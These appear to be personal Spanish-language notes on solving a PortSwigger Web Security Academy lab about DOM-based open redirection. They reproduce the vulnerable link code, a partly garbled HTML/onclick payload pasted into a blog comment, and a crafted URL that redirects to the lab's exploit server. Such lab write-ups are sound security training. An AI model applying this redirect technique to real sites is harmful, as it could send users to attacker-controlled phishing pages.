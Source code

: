 ![[Pasted image 20220808201430.png]]

![[Pasted image 20220808201948.png]]

![[Pasted image 20220808202105.png]]

payload:
0aa900c10457e6abc02e647c000200bb.web-security-academy.net/post?postId=4&url=https://0aa900c10457e6abc02e647c000200bb.web-security-academy.net

Complementando para ejecutar el payload:

contenedor class="is-linkback"
                        a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "https://0aa900c10457e6abc02e647c000200bb.web-security-academy.net/post?postId=4&url=https://0aa900c10457e6abc02e647c000200bb.web-security-academy.net/"'>Back to Blog/a
contenedor


![[Pasted image 20220808203008.png]]

![[Pasted image 20220808203028.png]]

Intentando con el tutorial de BugBount Espana:  https://www.youtube.com/watch?v=s_tioSnldvU

Payload:
"<"a href='#' onclick='returnURL' = /url=https?:W.+)/.exec(location); if(returnUrl)location.href=returnUrl[1];else location.href = "/" ">Back to Blog"<"/a ">"

No necesito de la interaccion del lab con Burp Suite:

![[Pasted image 20230611061835.png]]

click en cualquier entrada del blog:

![[Pasted image 20230611061923.png]]

en el comment pego el payload:

![[Pasted image 20230611062202.png]]

luego post comment y hago click en el HTML que inyecte (back to blog):


![[Pasted image 20230611062328.png]]

entro al exploit server:

![[Pasted image 20230611062356.png]]

paralelamente en el url de la pagina principal agregare un parametro que s el url del exploit server sin ningun payload:

https://0a60007504e22b85803fbd0800ec0004.web-security-academy.net/post?postId=10

el del exploit server:
https://exploit-0a6b008104c62b8a8039bc7101640026.exploit-server.net/

uniendo:

https://0a60007504e22b85803fbd0800ec0004.web-security-academy.net/post?postId=10&url=https://exploit-0a6b008104c62b8a8039bc7101640026.exploit-server.net/

![[Pasted image 20230611062639.png]]